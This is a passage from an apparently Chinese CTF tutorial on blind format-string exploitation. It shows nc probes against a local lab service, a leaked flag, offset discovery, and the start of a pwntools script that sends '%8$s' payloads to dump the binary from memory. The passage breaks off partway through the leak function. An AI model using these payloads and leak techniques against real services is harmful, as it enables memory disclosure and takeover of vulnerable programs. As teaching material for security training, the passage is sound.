 最后在输出中简单看了看，得到flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子2-盲打劫持got

源码以及部署文件均已经在blind_fmt_got文件夹中。

#### 确定程序位数

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

#### 确定偏移

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为6。

#### 泄露binary

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入'\x00'字符的，，不然没法泄露怎么玩，，除此之后，输出必然是'\x00'截断的，这是因为格式化字符串漏洞利用的输出函数均是'\x00'截断的。。所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
```